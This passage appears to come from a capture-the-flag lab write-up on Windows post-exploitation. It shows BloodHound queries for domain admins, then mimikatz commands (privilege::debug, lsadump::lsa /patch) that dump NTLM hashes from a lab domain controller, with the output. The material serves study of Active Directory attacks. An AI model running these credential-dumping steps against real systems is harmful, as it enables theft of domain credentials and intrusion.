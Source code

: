 - Drag and drop the loot.zip folder into Bloodhound to import the .json files

- Simple query: find all domain admins

![](https://pymaster-ft.github.io/assets/img/thm/windows/windows-post-exploitation-basics/simple-bloodhound-query.png)

![](https://pymaster-ft.github.io/assets/img/thm/windows/windows-post-exploitation-basics/domain-admins.png)

![](https://pymaster-ft.github.io/assets/img/thm/windows/windows-post-exploitation-basics/kerberoastable-users.png)

![](https://pymaster-ft.github.io/assets/img/thm/windows/windows-post-exploitation-basics/bloodhound-answers.png)

___

## `mimikatz` 

`mimikatz` is a very popular and powerful post-exploitation tool mainly used for dumping user credentials inside of a active directory network.

```cmd
PS C:\Users\Administrator\Downloads> .\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #18362 May  2 2020 16:23:51              
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)                               
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )  
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz                    
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com ) 
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/ 
```

- [`privilege::debug`](https://github.com/gentilkiwi/mimikatz/wiki/module-~-privilege) (to be executed as an administrator) ask for **SeDebugPrivilege** in order to interact with the LSASS process:

```cmd
mimikatz # privilege::debug 
Privilege '20' OK 
```

### Dumping NTLM hashes and cracking them using `hashcat`

- `lsadump::lsa /patch` dumps the NTLM password hashes:


```cmd
mimikatz # lsadump::lsa /patch 
Domain : CONTROLLER / S-1-5-21-849420856-2351964222-986696166 
                                                              
RID  : 000001f4 (500)                                         
User : Administrator                                          
LM   :                                                        
NTLM : 2777b7fec870e04dda00cd7260f7bee6                       
                                                              
RID  : 000001f5 (501)                                         
User : Guest                                                  
LM   :                                                        
NTLM :                                                        
                                                              
RID  : 000001f6 (502)                                         
User : krbtgt                                                 
LM   :                                                        
NTLM : 5508500012cc005cf7082a9a89ebdfdf

RID  : 0000044f (1103)
User : Machine1
LM   :
NTLM : 64f12cddaa88057e06a81b54e73b949b

```